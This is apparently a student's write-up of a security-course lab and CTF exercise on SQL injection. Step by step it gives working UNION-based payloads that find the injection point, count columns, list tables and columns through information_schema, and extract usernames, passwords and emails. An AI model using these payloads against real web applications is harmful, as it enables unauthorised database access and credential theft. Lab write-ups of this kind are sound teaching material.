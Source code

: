 ```yaml
---
title: "Week 6 - Assignment"
date: 2025-05-29
categories: [assignment]
layout: single
author_profile: true
sidebar:
  nav: "main"
read_time: true
toc: true
toc_label: "On this page"
toc_sticky: true
---
```


# Assignment 6 - 1 / Extracting Only doldol's Data

## (1). Identify the SQL Injection point
   
![스크린샷 2025-05-29 120037](https://github.com/user-attachments/assets/a7bf66d0-a58e-470b-b149-ac64d4603cd6)

By injecting a condition that always returns true (' OR '1'='1), all user accounts were displayed, confirming that the input is directly inserted into the SQL query.

## (2) Use ORDER BY to find the number of columns

Try injecting:

```
1234' order by [num] #
```

![image](https://github.com/user-attachments/assets/5bac249a-d89f-431d-8ddd-eed745916420)

- No error occurs for Order by 1 to 4
- However order by 5 makes the error
  
This tells us that the query has exactly 4 columns, since trying to sort by a non-existent fifth column causes a failure.

## (3) Use UNION SELECT to determine which columns are displayed

![image](https://github.com/user-attachments/assets/192e5e74-9c6b-4b59-be53-ab9bb6cd305c)

Each number (1, 2, 3, 4) is displayed in a different column on the page.
This confirms that **all four columns** are reflected in the output, meaning we can use any of them to display extracted data later (like usernames, emails, flags, etc.).


## (4) Use database() to find the current database name

![image](https://github.com/user-attachments/assets/e91cf7b5-2d25-409c-a2bb-c9815ce61339)

Try injecting:

```
1234' union select datbase(), 2, 3, 4#
```
The name of database is "segfault_sql"	


## (5) Use information_schema.tables to list all table names

![image](https://github.com/user-attachments/assets/45460560-556b-4688-ae25-27218c0a758c)

Try injecting:

```
1234' union select table_name, 2, 3, 4 from information_schema.tables where table_schema='segfault_sql' #
```
The names of the tables are **game, member, secret and secret_member**.

## (6) Use information_schema.columns to list all column names



Try injecting:

```
1234' union select column_name, 2, 3, 4 from information_schema.columns where table_name = 'member' #
```
The names of the coulmns in **member** table are **user_id, user_pass,	name, user_level, info ,id, pass and email**.



## (7) Finally, use UNION SELECT to extract the data

![image](https://github.com/user-attachments/assets/735d9c72-d0b8-49e1-8f4d-a430dda46d0c)
```
1234' union select id, pass, email, info from member #
```

To extract only **doldol**'s data, modify the payload as follows:

```
' union select id, pass, email, info from member where id='doldol' #
```

**Result:**

![image](https://github.com/user-attachments/assets/dbda74c3-e0f9-4c40-a20f-c9cc8297b36b)

Success!




---

# Assignment 6 - 2 / CTF SQL Injection 1

Find the SQL Injection point
```
bello' or '1'='1 
```
![image](https://github.com/user-attachments/assets/2ac94953-e134-442e-9fca-c7f255916af6)



The number of columns is 4
```
bello' order by [num] #
```
![image](https://github.com/user-attachments/assets/68c8e490-72c7-41a5-a08e-807ece73ef22)



Name of Databse: sqli_1
```
bello' union select database(), 2 ,3 ,4 #
```
![image](https://github.com/user-attachments/assets/07c57dd6-43f3-4e5f-bcf1-78c98badbcc9)



Find the tables in Database
```
' union select table_name, 2, 3 ,4 from information_schema.tables where table_schema = 'sqli_1' #
```
![image](https://github.com/user-attachments/assets/bff2111c-d1cf-49d2-9863-ef79d7211b3a)



Find the coulmns in **Flag** table
```
' union select column_name, 2, 3 ,4 from information_schema.columns where table_name = 'flag_table' #
```
![image](https://github.com/user-attachments/assets/e029b62d-99b6-421d-82cd-3fe6ed6ed37e)



